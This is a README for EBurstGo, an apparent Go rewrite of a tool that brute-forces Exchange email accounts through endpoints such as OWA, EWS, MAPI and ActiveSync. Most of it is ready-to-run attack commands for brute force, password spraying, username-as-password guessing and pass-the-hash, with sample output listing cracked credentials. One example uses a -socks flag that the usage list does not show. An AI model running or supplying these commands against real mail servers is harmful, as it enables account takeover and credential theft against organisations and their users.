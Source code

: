 # EBurstGo

Brute force email accounts using Exchange server web endpoints

Refactored using Go language based on the [grayddq/EBurst](https://github.com/grayddq/EBurst) project

Supported endpoints

```shell
/autodiscover
/owa/auth.owa # OWA & ECP
/ews
/mapi
/oab
/rpc
/Microsoft-Server-ActiveSync
/powershell
```

Note that the code in Releases may not be the latest

It is recommended to clone this project and then execute `goreleaser build --snapshot` to compile manually

## Usage

usage

```shell
Usage of ./EBurstGo:
  -check
    	check Exchange endpoints
  -delay int
    	delay between requests
  -domain string
    	AD domain
  -mode string
    	Exchange endpoint
  -nocolor
    	disable output color
  -o string
    	output file (default "result.txt")
  -pass string
    	password
  -passf string
    	password file
  -proxy string
    	socks/http(s) proxy
  -pth
    	PTH mode (Pass The Hash)
  -t int
    	number of goroutines (default 2)
  -url string
    	Exchange url
  -user string
    	username
  -user-as-pass
    	password is same as username
  -userf string
    	username file
  -userpassf string
    	user-pass file (user:pass)
  -v	show verbose info
```

check

```shell
$ ./EBurstGo -url https://192.168.30.11 -check
[*] checking exchange endpoints
[+] owa (/owa/auth.owa) exists
[+] powershell (/powershell) exists
[+] ecp (/owa/auth.owa) exists
[+] autodiscover (/autodiscover) exists
[+] mapi (/mapi) exists
[+] activesync (/Microsoft-Server-ActiveSync) exists
[+] oab (/oab) exists
[+] ews (/ews) exists
[+] rpc (/rpc) exists
```

brute

```shell
# By default, successful brute force accounts will be appended to result.txt

# Regular brute force
./EBurstGo -url https://192.168.30.11 -domain hack-my.com -userf user.txt -passf pass.txt -mode ews

# Account brute force
./EBurstGo -url https://192.168.30.11 -domain hack-my.com -user Alice -passf pass.txt -mode ews

# Password spraying
./EBurstGo -url https://192.168.30.11 -domain hack-my.com -userf user.txt -pass 'Changeme123' -mode ews

# Support for user:pass format dictionary
./EBurstGo -url https://192.168.30.11 -domain hack-my.com -userpassf userpass.txt -mode ews

# Password is the same as username
./EBurstGo -url https://192.168.30.11 -domain hack-my.com -userf user.txt -user-as-pass -mode ews

# Pth brute force (pass.txt is NTLM Hash)
./EBurstGo -url https://192.168.30.11 -domain hack-my.com -userf user.txt -passf pass.txt -mode ews -pth

# Set socks/http(s) proxy
./EBurstGo -url https://192.168.30.11 -domain hack-my.com -userf user.txt -passf pass.txt -mode ews -socks socks5://127.0.0.1:1080
```

examples

```shell
$ ./EBurstGo -url https://192.168.30.11 -domain hack-my.com -userf user.txt -passf pass.txt -mode ews
[*] using ews endpoint: https://192.168.30.11
[+] success: Administrator:abcd1234!@#$
[+] success: Alice:Alice123!
[+] success: Bob:Bob123!
[+] success: Marry:Marry123!
[*] costs: 3.031753209 s
```

## Todo

- After using NTLM authentication with a proxy for a period of time, connection refused appears. To be resolved (currently, there seems to be no good solution, only reducing the number of goroutines and adding delays to avoid it)  
- support `/powershell` endpoint (Kerberos authentication)
## License

Modified some code from the following repos

[Azure/go-ntlmssp](https://github.com/Azure/go-ntlmssp): Copyright (c) 2016 Microsoft The MIT License (MIT)


